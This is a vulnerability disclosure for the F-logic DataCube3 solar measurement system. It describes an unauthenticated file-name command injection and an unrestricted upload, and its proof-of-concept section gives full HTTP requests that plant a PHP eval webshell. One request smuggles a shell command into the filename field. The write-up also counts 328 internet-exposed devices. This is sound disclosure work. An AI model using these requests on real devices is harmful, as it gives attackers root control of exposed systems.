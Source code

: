 > Author: Ph0Jav7
> Keywords：PHP, DataCube3, Shell Code Injection

# Product Description

The DataCube3 from [F-logic](https://www.f-logic.jp/) is a compact terminal measurement system for photovoltaic power generation systems.

![product](https://github.com/Yang-Nankai/Vulnerabilities/blob/main/Pasted%20image%2020240503010448.png)

# Affected Products

All F-logic DataCube3 measurement system version 1.0.

![product-version](https://github.com/Yang-Nankai/Vulnerabilities/blob/main/Pasted%20image%2020240503010620.png)

# Vulnerability Summary

## Shell Code Injection

DataCube3 is affected by a command execution injection vulnerability, where file upload allows unauthenticated malicious actors to perform command injection attacks by manipulating the file name. Successful exploitation of the vulnerability could allow an attacker to upload a file with a PHP webshell leading to an RCE (Remote Code Execution) vulnerability. This issue affects all DataCube3 appliances version 1.0.

## Unrestricted File Upload

DataCube3 is affected by unrestricted file uploads that allow unauthenticated malicious actors to upload dangerous types of files by manipulating file extensions. Successful exploitation could allow an attacker to upload files that expose a `PHP Webshell` leading to an `RCE(Remote Code Execution)` vulnerability. This issue affects all DataCube3 appliances version 1.0.

# Reproduction Steps

## Shell Code Injection

There is a command injection vulnerability in `/admin/transceiver_schedule.php` that does not require authentication. The uploaded file name is not filtered and the file name is concatenated during execution, so command injection can be performed through this vulnerability. In the example, we will show how to exploit the command injection in the file name and write a minimal PHP WebShell.

![burpsuite](https://github.com/Yang-Nankai/Vulnerabilities/blob/main/Pasted%20image%2020240503012751.png)

Then visit `/admin/flag.php` and you will find that the webshell has been written successfully.

![shell](https://github.com/Yang-Nankai/Vulnerabilities/blob/main/Pasted%20image%2020240503012943.png)

## Unrestricted File Upload

There is a file upload point at `/admin/transceiver_schedule.php` to upload a CSV file. This function does not strictly filter the file, allowing us to upload any file on the device. In the example, it will show how to upload a minimal `PHP Webshell` named `flag.php`, which contains PHP code and allows us to send Linux commands to the server.

![upload](https://github.com/Yang-Nankai/Vulnerabilities/blob/main/Pasted%20image%2020240503105430.png)

Now you can access the page `/admin/data/flag.php` and execute the PHP script, which will then send linux commands directly to the server with `root` privileges.

![upload-shell](https://github.com/Yang-Nankai/Vulnerabilities/blob/main/Pasted%20image%2020240503105626.png)

# POC

## Shell Code Injection

```http
POST /admin/transceiver_schedule.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------37436279464137825937312543375
Content-Length: 531
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------37436279464137825937312543375
Content-Disposition: form-data; name="upload_file"; filename="ebara_new.csv; echo '<?php @eval($_POST[x])?>' > flag.php;"
Content-Type: application/octet-stream

test

-----------------------------37436279464137825937312543375
Content-Disposition: form-data; name="usb_schedule"

%e5%9b%ba%e5%ae%9a%e3%82%b9%e3%82%b1%e3%82%b8%e3%83%a5%e3%83%bc%e3%83%ab%e3%82%a4%e3%83%b3%e3%83%9d%e3%83%bc%e3%83%88
-----------------------------37436279464137825937312543375--
```
## Unrestricted File Upload

```http
POST /admin/transceiver_schedule.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------37436279464137825937312543375
Content-Length: 422
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------37436279464137825937312543375
Content-Disposition: form-data; name="upload_file"; filename="flag.php"
Content-Type: application/vnd.ms-excel

<?php @eval($_POST[x]);?>

-----------------------------37436279464137825937312543375
Content-Disposition: form-data; name="usb_schedule"

%e5%9b%ba%e5%ae%9a%e3%82%b9%e3%82%b1%e3%82%b8%e3%83%a5%e3%83%bc%e3%83%ab%e3%82%a4%e3%83%b3%e3%83%9d%e3%83%bc%e3%83%88
-----------------------------37436279464137825937312543375--

```

# Recommendation Fixes / Remediation

## Shell Code Injection

Escape command injection splicing and ensure that all requests sent to the backend are authenticated.

## Unrestricted File Upload

Make sure to set very strict file storage location, better file name sanitization logic, file content validation rules.

# Vulnerable Devices Found

As of 2 May 2024, there were 328 F-logic DataCube3 devices exposed to the internet and were affected by the vulnerabilities discovered.

![fofa](https://github.com/Yang-Nankai/Vulnerabilities/blob/main/Pasted%20image%2020240503013439.png)

# References

[https://www.f-logic.jp](https://www.f-logic.jp/)

[https://www.f-logic.jp/pdf/support/manual_product/manual_product_datacube3_ver1.0_sc.pdf](https://www.f-logic.jp/pdf/support/manual_product/manual_product_datacube3_ver1.0_sc.pdf)
